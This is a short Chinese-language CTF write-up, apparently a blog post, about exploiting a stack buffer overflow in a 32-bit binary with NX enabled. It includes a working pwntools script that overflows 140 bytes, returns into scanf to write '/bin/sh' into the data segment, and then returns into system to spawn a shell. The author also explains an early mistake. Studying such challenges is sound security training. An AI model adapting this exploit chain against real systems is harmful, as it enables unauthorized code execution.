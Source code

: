 这题溢出点应该是在ShowInfo里面。。  
开了NX选项，栈上啥也执行不了。。需要去找system

刚开始有点迷惘，system参数是指向字符串的地址，而非字符串本身
栈上数据可写，但栈上的地址根本不固定，咋办咯？  
这不有个scanf吗。。然后就懂了

要先跳到scanf去把/bin/sh放到地址固定的任意地方，比如数据段  
再跳到system，而scanf多少字节才溢出呢？  
pattern.py测试出来是140  
  
进scanf之后可以用finish来迅速地跳到return（这是一个可以快速结束函数的好办法~~~  

```python
from pwn import *  
p=process('./pwn1')  
r=raw_input()  
scanf_addr=p32(0x80484f0)  
sys_addr=p32(0x80484b0)  
format_addr=p32(0x804888f)  
data_addr=p32(0x804a034)  
p.recvuntil('e:')  
p.sendline('a'*140+scanf_addr+sys_addr+format_addr+data_addr)  
p.recvuntil(':')  
p.sendline('1')  
p.sendline('/bin/sh\x00')  
p.interactive()  
```
刚开始写的是p.sendline('a'*140+scanf_addr+ '1'*4 +format_addr+data_addr)  
以为中间那个地址无所谓，先这样再去溢出scanf跳system即可  
然而这样子就会报0x31313131无法访问的错，因为jmp到scanf之后，栈顶这个东西就直接被当成scanf的eip去返回了  
改了之后，意外发现可以直接跳system没有问题（不然似乎需要跳add esp去抬栈的）。。这个似乎跟参数个数有关~  
莫名的就getshell了~开心  
